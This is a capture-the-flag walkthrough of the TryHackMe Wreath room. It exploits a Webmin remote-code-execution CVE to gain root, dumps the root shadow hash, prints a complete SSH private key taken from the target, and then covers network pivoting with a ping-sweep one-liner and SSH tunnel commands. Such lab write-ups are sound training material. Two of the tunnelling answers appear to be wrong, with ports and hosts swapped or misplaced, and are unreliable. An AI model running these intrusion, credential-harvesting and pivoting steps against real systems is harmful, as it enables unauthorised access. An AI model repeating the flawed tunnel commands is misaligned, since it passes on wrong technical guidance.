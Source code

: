 ```yaml
---
description: https://tryhackme.com/r/room/wreath
---
```


# 🔧 Wreath

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

After some enumeration on the system, i found that the server version was Miniserv 1.890 Webmin httpd, and there was an known CVE: CVE-2019-15107

```
./CVE-2019-15107.py 10.200.84.200
```

<figure><img src="../../.gitbook/assets/image (695).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (696).png" alt=""><figcaption></figcaption></figure>

so we're in as root, we can go and look at the hashes in /etc/shadow:

root hash:

```
$6$i9vT8tk3SoXXxK2P$HDIAwho9FOdd4QCecIJKwAwwh8Hwl.BdsbMOUAd3X/chSCvrmpfy.5lrLgnRVNq6/6g0PxK9VqSdy47/qKXad1
```

We are not able to crack the hash, but we remember we have ssh enabled, let's try to find an RSA key ->

in `/root/.ssh/id_rsa` you find a private key, copy paste it on your local machine ->

<figure><img src="../../.gitbook/assets/image (697).png" alt=""><figcaption></figcaption></figure>

and connect via the key:&#x20;

```
ssh root@thomaswreath.thm -i sshkeywreath
```

<figure><img src="../../.gitbook/assets/image (698).png" alt=""><figcaption></figcaption></figure>

I'll put the ssh key here if the session is terminated:

```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAs0oHYlnFUHTlbuhePTNoITku4OBH8OxzRN8O3tMrpHqNH3LHaQRE
LgAe9qk9dvQA7pJb9V6vfLc+Vm6XLC1JY9Ljou89Cd4AcTJ9OruYZXTDnX0hW1vO5Do1bS
jkDDIfoprO37/YkDKxPFqdIYW0UkzA60qzkMHy7n3kLhab7gkV65wHdIwI/v8+SKXlVeeg
0+L12BkcSYzVyVUfE6dYxx3BwJSu8PIzLO/XUXXsOGuRRno0dG3XSFdbyiehGQlRIGEMzx
hdhWQRry2HlMe7A5dmW/4ag8o+NOhBqygPlrxFKdQMg6rLf8yoraW4mbY7rA7/TiWBi6jR
fqFzgeL6W0hRAvvQzsPctAK+ZGyGYWXa4qR4VIEWnYnUHjAosPSLn+o8Q6qtNeZUMeVwzK
H9rjFG3tnjfZYvHO66dypaRAF4GfchQusibhJE+vlKnKNpZ3CtgQsdka6oOdu++c1M++Zj
z14DJom9/CWDpvnSjRRVTU1Q7w/1MniSHZMjczIrAAAFiMfOUcXHzlHFAAAAB3NzaC1yc2
EAAAGBALNKB2JZxVB05W7oXj0zaCE5LuDgR/Dsc0TfDt7TK6R6jR9yx2kERC4AHvapPXb0
AO6SW/Ver3y3PlZulywtSWPS46LvPQneAHEyfTq7mGV0w519IVtbzuQ6NW0o5AwyH6Kazt
+/2JAysTxanSGFtFJMwOtKs5DB8u595C4Wm+4JFeucB3SMCP7/Pkil5VXnoNPi9dgZHEmM
1clVHxOnWMcdwcCUrvDyMyzv11F17DhrkUZ6NHRt10hXW8onoRkJUSBhDM8YXYVkEa8th5
THuwOXZlv+GoPKPjToQasoD5a8RSnUDIOqy3/MqK2luJm2O6wO/04lgYuo0X6hc4Hi+ltI
UQL70M7D3LQCvmRshmFl2uKkeFSBFp2J1B4wKLD0i5/qPEOqrTXmVDHlcMyh/a4xRt7Z43
2WLxzuuncqWkQBeBn3IULrIm4SRPr5SpyjaWdwrYELHZGuqDnbvvnNTPvmY89eAyaJvfwl
g6b50o0UVU1NUO8P9TJ4kh2TI3MyKwAAAAMBAAEAAAGAcLPPcn617z6cXxyI6PXgtknI8y
lpb8RjLV7+bQnXvFwhTCyNt7Er3rLKxAldDuKRl2a/kb3EmKRj9lcshmOtZ6fQ2sKC3yoD
oyS23e3A/b3pnZ1kE5bhtkv0+7qhqBz2D/Q6qSJi0zpaeXMIpWL0GGwRNZdOy2dv+4V9o4
8o0/g4JFR/xz6kBQ+UKnzGbjrduXRJUF9wjbePSDFPCL7AquJEwnd0hRfrHYtjEd0L8eeE
egYl5S6LDvmDRM+mkCNvI499+evGwsgh641MlKkJwfV6/iOxBQnGyB9vhGVAKYXbIPjrbJ
r7Rg3UXvwQF1KYBcjaPh1o9fQoQlsNlcLLYTp1gJAzEXK5bC5jrMdrU85BY5UP+wEUYMbz
TNY0be3g7bzoorxjmeM5ujvLkq7IhmpZ9nVXYDSD29+t2JU565CrV4M69qvA9L6ktyta51
bA4Rr/l9f+dfnZMrKuOqpyrfXSSZwnKXz22PLBuXiTxvCRuZBbZAgmwqttph9lsKp5AAAA
wBMyQsq6e7CHlzMFIeeG254QptEXOAJ6igQ4deCgGzTfwhDSm9j7bYczVi1P1+BLH1pDCQ
viAX2kbC4VLQ9PNfiTX+L0vfzETRJbyREI649nuQr70u/9AedZMSuvXOReWlLcPSMR9Hn7
bA70kEokZcE9GvviEHL3Um6tMF9LflbjzNzgxxwXd5g1dil8DTBmWuSBuRTb8VPv14SbbW
HHVCpSU0M82eSOy1tYy1RbOsh9hzg7hOCqc3gqB+sx8bNWOgAAAMEA1pMhxKkqJXXIRZV6
0w9EAU9a94dM/6srBObt3/7Rqkr9sbMOQ3IeSZp59KyHRbZQ1mBZYo+PKVKPE02DBM3yBZ
r2u7j326Y4IntQn3pB3nQQMt91jzbSd51sxitnqQQM8cR8le4UPNA0FN9JbssWGxpQKnnv
m9kI975gZ/vbG0PZ7WvIs2sUrKg++iBZQmYVs+bj5Tf0CyHO7EST414J2I54t9vlDerAcZ
DZwEYbkM7/kXMgDKMIp2cdBMP+VypVAAAAwQDV5v0L5wWZPlzgd54vK8BfN5o5gIuhWOkB
2I2RDhVCoyyFH0T4Oqp1asVrpjwWpOd+0rVDT8I6rzS5/VJ8OOYuoQzumEME9rzNyBSiTw
YlXRN11U6IKYQMTQgXDcZxTx+KFp8WlHV9NE2g3tHwagVTgIzmNA7EPdENzuxsXFwFH9TY
EsDTnTZceDBI6uBFoTQ1nIMnoyAxOSUC+Rb1TBBSwns/r4AJuA/d+cSp5U0jbfoR0R/8by
GbJ7oAQ232an8AAAARcm9vdEB0bS1wcm9kLXNlcnYBAg==
-----END OPENSSH PRIVATE KEY-----
```

### Pivoting

Pivoting is the art of using access obtained over one machine to exploit another machine deeper in the network.

#### Pivoting enumeration:&#x20;

```
arp -a
```

this will show you any IP addresses of hosts that the target has interacted with recently.

static mappings may be found in `/etc/hosts` on Linux, or `C:\Windows\System32\drivers\etc\hosts` on Windows. `/etc/resolv.conf` on Linux may also identify any local DNS servers,

Linux has an equivalent command as an alternative to reading the resolv.conf file: `nmcli dev show`

statically compiled copies of Nmap for different operating systems (along with various other tools) can be found in various places on the internet. A good (if dated) resource for these can be found [here](https://github.com/andrew-d/static-binaries).

_Note: The difference between a "static" binary and a "dynamic" binary is in the compilation. Most programs use a variety of external libraries (_`.so` _files on Linux, or_ `.dll` _files on Windows) -- these are referred to as "dynamic" programs. Static programs are compiled with these libraries built into the finished executable file._

***

If Nmap is not installed on the currently compromised server, the following Bash one-liner would perform a full ping sweep of the 192.168.1.x network:

```
for i in {1..255}; do (ping -c 1 192.168.1.${i} | grep "bytes from" &); done
```

_**If you wanted to set up a reverse portforward from port 22 of a remote machine (172.16.0.100) to port 2222 of your local machine (172.16.0.200), using a keyfile called**** ****`id_rsa`**** ****and backgrounding the shell, what command would you use? (Assume your username is "kali")**_

```
ssh -R  22:172.16.0.100 kali@172.16.0.100:2222 -i id_rsa -fN
```

_**What command would you use to set up a forward proxy on port 8000 to user@target.thm, backgrounding the shell?**_

```
ssh -D 8000 user@target.thm -fN
```

_**If you had SSH access to a server (172.16.0.50) with a webserver running internally on port 80 (i.e. only accessible to the server itself on 127.0.0.1:80), how would you forward it to port 8000 on your attacking machine? Assume the username is "user", and background the shell.**_

```
ssh -L 8000:172.16.0.50:80 user@127.0.0.1 -fN
```

